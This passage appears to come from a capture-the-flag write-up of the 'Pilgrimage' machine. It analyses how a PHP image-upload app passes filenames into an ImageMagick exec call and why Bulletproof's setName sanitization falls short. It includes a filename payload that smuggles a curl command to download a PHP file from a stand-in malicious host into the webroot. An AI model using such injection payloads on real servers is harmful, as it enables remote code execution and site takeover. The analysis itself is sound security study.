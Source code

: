The `getImageMime` function uses a built-in PHP function called [`exif_imagetype`](https://www.php.net/manual/en/function.exif-imagetype.php). It will only check the magic number of the given file. If the server used only this mechanism, [we're able to send malicious files](https://stackoverflow.com/a/40366915).

Bulletproof ensures [other security measures](https://github.com/samayo/bulletproof#what-makes-this-secure) than just the magic numbers check. So, if we're not trying to find a zero-day, let's move on. 

##### Code Injection through Filename

As mentioned before, the server could use a external software to shrink the image: and spot on! The `exec` function is called using the command convert from ImageMagick:

```php
exec("/var/www/pilgrimage.htb/magick convert /var/www/pilgrimage.htb/tmp/" . $upload->getName() . $mime . " -resize 50% /var/www/pilgrimage.htb/shrunk/" . $newname . $mime);
```

If the `getName()` returns the name of our image, we're able to inject code.

Checking this function on Bulletproof:

```php
public function getName() {
  if (!$this->name) {
	$this->name = uniqid('', true).'_'.str_shuffle(implode(range('e', 'q')));
  }

  return $this->name;
}
```

Could not be that good: if the app doesn't define a name for the image through `setName()` (which is the case), Bulletproof generates a random one. 

Worth mention that the app would be vulnerable to RCE if it used the `setName()` function. This happens because the name is not properly sanitized:

```php
public function setName($isNameProvided = null) {
  if ($isNameProvided) {
	$this->name = filter_var($isNameProvided, FILTER_SANITIZE_STRING);
  }

  return $this;
}
```

The [filter_var](https://www.php.net/manual/en/function.filter-var.php) only cleans the quotes and html tags[^2] . Other characters like `;`, `&` and `#` aren't sanitized at all, allowing us to manipulate the exec expression. For example, if we set the name of the image with:

```shell
 && curl http://malicious-server.com/file.php -o /var/www/pilgrimage.htb/secret.php #
```

The exec expression would be:


[^1]: Git is a software for developers to create code, registering and tracking all the changes. When used, Git creates a `.git` directory to store data about the changes. If the contents of `.git` are public, we can get the source code of the app.
[^2]: See the `FILTER_SANITIZE_STRING` section on the [PHP documentation](https://www.php.net/manual/en/filter.filters.sanitize.php). 
[^3]: Read more on the [MetabaseQ article](https://www.metabaseq.com/imagemagick-zero-days/).
[^4]: Before written my own Python script, I've used a Rust version of it. Make sure to [check it out](https://github.com/voidz0r/CVE-2022-44268). 
[^5]: To confirm if the emily was a user on the machine, we can check the `/etc/passwd` file.
[^6]: More info [here](https://lekensteyn.nl/files/pfs/pfs.txt).
[^7]: https://www.reddit.com/r/privacy/comments/9yzya4/lightshot_millions_of_screenshots_available_to/